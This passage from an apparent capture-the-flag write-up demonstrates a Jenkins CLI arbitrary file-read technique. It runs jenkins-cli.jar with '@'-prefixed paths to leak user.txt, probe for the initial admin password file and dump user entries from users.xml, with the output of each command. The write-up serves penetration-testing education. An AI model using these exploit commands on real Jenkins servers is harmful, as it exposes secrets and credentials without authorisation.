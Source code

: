 

I can actually read `user.txt` at this point from the jenkins user's
home directory:



    oxdf@hacky$ java -jar jenkins-cli.jar -s 'http://10.10.11.10:8080' help '@/var/jenkins_home/user.txt' a

    ERROR: Too many arguments: a
    java -jar jenkins-cli.jar help [COMMAND]
    Lists all the available commands or a detailed description of single command.
     COMMAND : Name of the command (default: ffcb78dc3a26226b97276f24e26fc272)



#### Passwords

Jenkins
[stores](https://boozallen.github.io/sdp-docs/learning-labs/1/local-development/3-configure-jenkins.md)
the initial password for the admin user at
`/var/jenkins_home/secrets/initialAdminPassword`. Unfortunately, that
returns "No such file":



    oxdf@hacky$ java -jar jenkins-cli.jar -s 'http://10.10.11.10:8080' help '@/var/jenkins_home/secrets/initialAdminPassword' a

    ERROR: No such file: /var/jenkins_home/secrets/initialAdminPassword
    java -jar jenkins-cli.jar help [COMMAND]
    Lists all the available commands or a detailed description of single command.
     COMMAND : Name of the command



Jenkins [stores
information](https://dev.to/pencillr/spawn-a-jenkins-from-code-gfa)
about its user accounts in `/var/jenkins_home/users/users.xml`. Using
`reload-node`, I'll get the lines of that file, albeit a bit scrambed:



    oxdf@hacky$ java -jar jenkins-cli.jar -s 'http://10.10.11.10:8080' reload-job '@/var/jenkins_home/users/users.xml'
    <?xml version='1.1' encoding='UTF-8'?>: No such item ‘<?xml version='1.1' encoding='UTF-8'?>’ exists.
          <string>jennifer_12108429903186576833</string>: No such item ‘      <string>jennifer_12108429903186576833</string>’ exists.
      <idToDirectoryNameMap>: No such item ‘  <idToDirectoryNameMap>’ exists.
        <entry>: No such item ‘    <entry>’ exists.
          <string>jennifer</string>: No such item ‘      <string>jennifer</string>’ exists.
      <version>1</version>: No such item ‘  <version>1</version>’ exists.
    </hudson.model.UserIdMapper>: No such item ‘</hudson.model.UserIdMapper>’ exists.
      </idToDirectoryNameMap>: No such item ‘  </idToDirectoryNameMap>’ exists.
    <hudson.model.UserIdMapper>: No such item ‘<hudson.model.UserIdMapper>’ exists.
        </entry>: No such item ‘    </entry>’ exists.
